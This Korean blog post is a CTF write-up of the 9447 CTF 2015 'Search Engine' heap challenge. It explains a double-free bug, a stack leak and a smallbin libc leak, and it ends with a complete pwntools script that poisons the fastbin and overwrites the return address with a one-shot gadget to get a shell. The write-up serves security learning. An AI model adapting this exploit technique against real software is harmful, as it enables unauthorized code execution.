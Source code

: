 ```yaml
---
layout: post
title: ! "[9447 CTF 2015] Search Engine"
comments: true
excerpt_separator: <!--more-->
tags:
  - MyriaBreak
  - Write-up
  - CTF
  - pwnable
  - heap
---
```


요즘 `Heap` 쪽을 공부하고 있습니다. 그래서 `Shellphish`팀에서 정리해놓은 `how2heap`문서를 보면서 공부를 하고 있는데, 처음부터 굉장히 어려운 문제를 잡은 느낌이 듭니다 ;;
이 문제를 본 것은 한달 전이지만 푼 것은 한달 후네요 ㅠ
아무튼 시작했으니 끝을 보긴해야해서 이렇게 write up으로 남겨봅니다.

<!--more-->

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_01.PNG)

예시가 너무 어렵습니다 `Shellphish`팀... 쉬운 문제없나요 ㅠ

```
Ever wanted to search through real life? Well this won't help, but it will let you search strings.

Find it at search-engine-qgidg858.9447.plumbing port 9447.

```

아무튼 문제는 위와 같습니다. 문자열 검색을 수행하는 바이너리를 하나 던져주는데, 보호기법을 확인해보면 아래와 같습니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_04.PNG)

`Canary`와 `NX`가 걸려있는데, 일단 한번 실행해보는게 좋을 것 같습니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_02.PNG)

주어진 바이너리를 실행하게 되면 3가지 메뉴가 주어지고 문자열을 추가(Index), 검색(Search)할 수 있습니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_03.PNG)

그리고 Search를 통해 단어를 검색하여 그 단어가 포함된 문장을 검색할 수 있고, 또 검색한 후 그 문자열을 삭제할지 말지를 결정할 수 있습니다.

이제 `IDA`를 통해 바이너리의 자세한 과정을 살펴보겠습니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_05.PNG)

while문안에서 메뉴를 출력하고 어떤 기능을 수행할지 선택하게 됩니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_08.PNG)

`AddSentence함수`를 살펴보면 위와 같이 구조체를 malloc을 통해 할당하여 입력받은 문장을 저장하는 것을 볼 수 있습니다.

또한 `공백`을 기준으로 word를 나눠서 이를 또 구조체를 malloc으로 할당해서 `Linked list`를 만들게 됩니다.


```c++
struct dic {
    char* word_addr;
    int word_size;
    char* sentence_addr;
    int sentence_size;
    struct dic* next;
};
```
그럼 이제 어디서 취약점이 터지느냐?
아래 `Search`함수를 보면 `memset`을 통해서 `sentence`에 저장된 내용은 NULL(0)으로 모두 지워버리고, `free`를 하는 것을 볼 수 있습니다. 하지만 `word`들이 저장된 `Linked List`에서는 이를 삭제해버리지 않기때문에, NULL값을 검색하게되면 이미 삭제되었던 값을 다시 한번 삭제하고 `free`할 수 있게 되어 `double free bug`가 발생하게 됩니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_07.PNG)

그러므로 우리는 여기서 fastbin list를 `HEAD -> B -> A -> B` .. 형식으로 만들 수 있고, B를 2번 할당할 수 있으므로 B의 `fd` 값을 수정하여 다음에 할당할 영역의 주소를 임의로 조작할 수 있습니다.

그런데 어디에 있는 값을 수정해야할까요?

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_10.PNG)

main함수가 끝나는 `ret`에 break를 걸고 스택에 있는 값을 살펴보면 위와 같습니다. 0x40~~이 있는데 이 위치를 잘 조정해서, 아래와 같이해서 fastbin리스트에 넣게되면 0x40을 size로 보고 정상적으로 `fastbin`에 포함되게 됩니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_11.PNG)

>하지만 저희는 스택값을 모르는데요?

그래서 스택값을 `leak`해야하는데, 이것은 아래 함수를 통해서 할 수 있습니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_06.PNG)

위 함수는 사용자로부터 숫자를 입력받고, 만약 숫자가 아닌값이 입력된다면 재귀적으로 다시 한번 자기자신을 호출하여 숫자를 입력받을 때까지 계속하게 호출되게 됩니다.
그런데 이 때 2번째 `Select_choice`함수를 호출하게 될 때, 이전 함수의 ebp가 남아있게 되는데 이 위치가 `num+48`에 있기때문에 num을 입력할 때, 문자열 48자리로 채우게 되면 printf로 출력될 때 NULL바이트를 만날때까지 출력되기때문에 스택주소를 leak할 수 있습니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_12.PNG)

자.. 이제 스택 주소도 구했겠다. 이제 `library주소`만 leak할 수 있다면 완벽할 텐데 말이죠. 그래서 여러가지 알아보던 중에 저희 팀의 `chaem`님이 올린 글을 보게됬는데, 여기서 smallbin을 이용해서 library주소를 leak할 수 있다는 것을 알게 되었습니다.

---
[(0ctf2017) babyheap Write up](https://go-madhat.github.io/0ctfbabyheap-writeup/)에서 나온 smallbin을 이용하는 방법입니다.

#### 6. 그리고 4번 chunk의 크기를 다시 smallbin 크기로 만들어주고 free합니다. free하면 smallbin 특성상 unsorted bin이 되기 때문에 fd와 bk에 main_arena+88 주소가 남게 됩니다. 이 점을 이용하면 dump를 통해 main_arena+88의 leak이 가능합니다.
---

fastbin 이외의 다른 bin들은 free되고 나면 데이터영역에 fd와 bk가 남게되는데, 이 때 다음 fd와 bk를 연결할 chunk가 없다면 libc의 `<main_area+88>`의 주소가 남게됩니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_14.PNG)
![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_13.PNG)
![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_15.PNG)

자. 이제 `libc_base`도 구했고, `stack_address`도 있으니 `double free bug`를 이용해서 `ret`에 원하는 주소를 쓰면 되겠습니다.

이것을 정리하면 아래와 같습니다.

1. `stack address`, `libc_base` leak
2. `oneshot_gadget` 구하기
3. `ret`를 `oneshot_gadget`으로 덮기

```python
#!/usr/bin/env python
from pwn import *

conn = process("search")

def leak_stack():
	conn.recvuntil("3: Quit")
	conn.sendline("1")
	conn.recvuntil("size:")
	conn.sendline("A")
	conn.recvuntil("number")
	conn.sendline("A"*48)
	stack_addr = conn.recvuntil(" is ")[-10:-4]
	stack_addr = u64(stack_addr + "\x00"*2)
	conn.sendline("1")
	conn.recvuntil("word:")
	conn.sendline("A")
	return stack_addr

def Search(word, size):
	conn.recvuntil("3: Quit")
	conn.sendline("1")
	conn.recvuntil("size:")
	conn.sendline(str(size))
	conn.recvuntil("word:")
	conn.sendline(word)

def Delete(choice):
	conn.recvuntil("(y/n)?")
	conn.sendline(choice)

def AddSentence(sentence, size):
	conn.recvuntil("3: Quit")
	conn.sendline("2")
	conn.recvuntil("size:")
	conn.sendline(str(size))
	conn.recvuntil("sentence:")
	conn.sendline(sentence)

stack_addr = leak_stack() + 0x92 # fake size 0x40
log.info("stack_addr : 0x%x" % stack_addr)

#leak_libc  -  <main_arena+88>
AddSentence("A"*506+" small", 512)
Search("small", 5)
Delete("y")

Search("\0"*5, 5)
conn.recvuntil(": ")
libc_addr = u64(conn.recv(8)) - 0x3c4b78
log.info("libc_addr  : 0x%x" % libc_addr)
Delete("n")

# double free bug
AddSentence("A"*50+" dfb", 54) #A
AddSentence("B"*50+" dfb", 54) #B
AddSentence("C"*50+" dfb", 54) #C

# fastbin HEAD -> A -> B -> C -> NULL
Search("dfb", 3)
Delete("y") #C
Delete("y") #B
Delete("y") #A

# fastbin HEAD -> B -> A -> B -> C -> NULL
Search("\x00"*3, 3)
Delete("y") #B
Delete("n") #A

# fastbin HEAD -> B -> A -> B -> X ...
AddSentence(p64(stack_addr).ljust(54), 54) #B
AddSentence("A"*50+" dfb", 54) #A
AddSentence("A"*50+" dfb", 54) #B

# ret overwrite
oneshot = libc_addr + 0x45216
log.info("oneshot  : 0x%x" % oneshot)

payload = "A"*6
payload += p64(oneshot)
AddSentence(payload.ljust(54), 54) #B

conn.recvuntil("3: Quit")
conn.sendline("3")

conn.interactive()



```

이제 익스코드를 돌려보면 아래와 같이 쉘을 얻은 것을 볼 수 있습니다.

![]({{ site.baseurl }}/images/myria/search_engine-writeup/search_16.PNG)

### *후기

역시 heap은 어렵군요 ㅠㅠ 더 열심히 공부해야겠습니다. 분명 비슷한 문제를 이전에 풀어본거같은데, 할 때마다 heap은 헷갈리는 것 같습니다. 익숙치않아서 그런걸까요 ㅎㅎ;
그리고 저는 pwnalbe문제를 풀 때 주로 peda를 쓰는데, 역시 heap 문제 풀때는 pwndgb가 더 편한것같네요... 다음에 문제를 풀게 되면 한 번 이용해봐야겠습니다. 워낙 익숙하지않아서 후... 다음번에는 좀 더 문제를 빠르게 풀 수 있으면 좋겠습니다!
